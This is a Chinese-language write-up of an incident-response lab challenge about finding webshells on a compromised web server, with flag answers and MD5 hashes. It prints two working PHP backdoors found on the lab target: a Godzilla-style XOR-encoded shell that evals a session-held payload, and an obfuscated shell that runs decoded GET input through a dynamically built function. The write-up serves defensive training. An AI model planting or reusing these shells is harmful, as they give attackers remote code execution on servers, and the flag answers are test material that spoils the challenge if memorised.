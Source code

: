 # 第一章-应急响应Webshell查杀

  
  
&lt;!--more--&gt;  
任务要求  
	1.黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}  
	2.黑客使用的什么工具的shell github地址的md5 flag{md5}  
	3.黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx  
	4.黑客免杀马完整路径 md5 flag{md5}  
连上靶机之后，利用`tar`命令，压缩网站源码  
`tar -zcvf html.tar.gz /var/www/html`  
在线查杀网站进行查杀  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401312145880.png)  
在`/var/www/html/include/gz.php`文件下，发现第一个`flag`  
```bash  
root@ip-10-0-10-3:/var/www/html# cat /var/www/html/include/gz.php  
&lt;?php  
@session_start();  
@set_time_limit(0);  
@error_reporting(0);  
function encode($D,$K){  
    for($i=0;$i&lt;strlen($D);$i&#43;&#43;) {  
        $c = $K[$i&#43;1&amp;15];  
        $D[$i] = $D[$i]^$c;  
    }  
    return $D;  
}  
//027ccd04-5065-48b6-a32d-77c704a5e26d  
$payloadName=&#39;payload&#39;;  
$key=&#39;3c6e0b8a9c15224a&#39;;  
$data=file_get_contents(&#34;php://input&#34;);  
if ($data!==false){  
    $data=encode($data,$key);  
    if (isset($_SESSION[$payloadName])){  
        $payload=encode($_SESSION[$payloadName],$key);  
        if (strpos($payload,&#34;getBasicsInfo&#34;)===false){  
            $payload=encode($payload,$key);  
        }  
                eval($payload);  
        echo encode(@run($data),$key);  
    }else{  
        if (strpos($data,&#34;getBasicsInfo&#34;)!==false){  
            $_SESSION[$payloadName]=encode($data,$key);  
        }  
    }  
}  
  
```  
`flag{027ccd04-5065-48b6-a32d-77c704a5e26d}`  
很明显是一个冰蝎马，找到 github地址进行提交  
```bash  
f10wers13eicheng@MacBookPro [21时41分00秒] [~/Desktop]   
-&gt; % md5 -s &#39;https://github.com/BeichenDream/Godzilla&#39;  
MD5 (&#34;https://github.com/BeichenDream/Godzilla&#34;) = 39392de3218c333f794befef07ac9257  
```  
`flag{39392de3218c333f794befef07ac9257}`  
第三个 flag 是隐藏shell文件的路径`/var/www/html/include/Db/.Mysqli.php`  
```bash  
f10wers13eicheng@MacBookPro [21时39分52秒] [~/Desktop]   
-&gt; % md5 -s &#39;/var/www/html/include/Db/.Mysqli.php&#39;    
MD5 (&#34;/var/www/html/include/Db/.Mysqli.php&#34;) = aebac0e58cd6c5fad1695ee4d1ac1919  
```  
第四个 flag 为免杀马的路径，在河马查杀里边可以注意到一个特殊的  
`机器学习检测为webshell`，进行查看  
```bash  
root@ip-10-0-10-3:/var/www/html# cat /var/www/html/wap/top.php  
&lt;?php  
  
$key = &#34;password&#34;;  
  
//ERsDHgEUC1hI  
$fun = base64_decode($_GET[&#39;func&#39;]);  
for($i=0;$i&lt;strlen($fun);$i&#43;&#43;){  
    $fun[$i] = $fun[$i]^$key[$i&#43;1&amp;7];  
}  
$a = &#34;a&#34;;  
$s = &#34;s&#34;;  
$c=$a.$s.$_GET[&#34;func2&#34;];  
$c($fun);  
```  
确实是免杀马  
```bash  
f10wers13eicheng@MacBookPro [21时39分59秒] [~/Desktop]   
-&gt; % md5 -s &#39;/var/www/html/wap/top.php&#39;             
MD5 (&#34;/var/www/html/wap/top.php&#34;) = eeff2eabfd9b7a6d26fc1a53d3f7d1de  
```  
`flag{eeff2eabfd9b7a6d26fc1a53d3f7d1de}`  

---

> Author: N1Rvana  
> URL: http://localhost:1313/%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/  

